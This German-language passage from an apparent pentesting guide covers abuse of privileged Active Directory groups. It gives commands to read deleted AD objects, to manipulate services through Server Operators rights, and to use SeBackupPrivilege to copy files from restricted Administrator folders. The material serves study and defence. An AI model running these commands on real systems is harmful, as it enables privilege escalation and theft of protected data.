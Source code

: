 Die Mitgliedschaft in dieser Gruppe ermöglicht das Lesen von gelöschten Active Directory-Objekten, was sensible Informationen offenbaren kann:
```bash
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```
### Domain Controller Access

Der Zugriff auf Dateien auf dem DC ist eingeschränkt, es sei denn, der Benutzer ist Teil der `Server Operators`-Gruppe, die das Zugriffslevel ändert.

### Privilege Escalation

Mit `PsService` oder `sc` von Sysinternals kann man die Berechtigungen von Diensten inspizieren und ändern. Die `Server Operators`-Gruppe hat beispielsweise die volle Kontrolle über bestimmte Dienste, was die Ausführung beliebiger Befehle und die Eskalation von Rechten ermöglicht:
```cmd
C:\> .\PsService.exe security AppReadiness
```
Dieser Befehl zeigt, dass `Server Operators` vollen Zugriff haben, was die Manipulation von Diensten für erhöhte Privilegien ermöglicht.

## Backup Operators

Die Mitgliedschaft in der Gruppe `Backup Operators` gewährt Zugriff auf das Dateisystem von `DC01` aufgrund der `SeBackup`- und `SeRestore`-Privilegien. Diese Privilegien ermöglichen das Durchqueren von Ordnern, das Auflisten und das Kopieren von Dateien, selbst ohne ausdrückliche Berechtigungen, unter Verwendung des `FILE_FLAG_BACKUP_SEMANTICS`-Flags. Für diesen Prozess ist die Nutzung spezifischer Skripte erforderlich.

Um die Gruppenmitglieder aufzulisten, führen Sie aus:
```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```
### Lokaler Angriff

Um diese Berechtigungen lokal zu nutzen, werden die folgenden Schritte durchgeführt:

1. Notwendige Bibliotheken importieren:
```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
2. Aktivieren und überprüfen Sie `SeBackupPrivilege`:
```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
3. Zugriff auf und Kopieren von Dateien aus eingeschränkten Verzeichnissen, zum Beispiel:
```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```
### AD Angriff

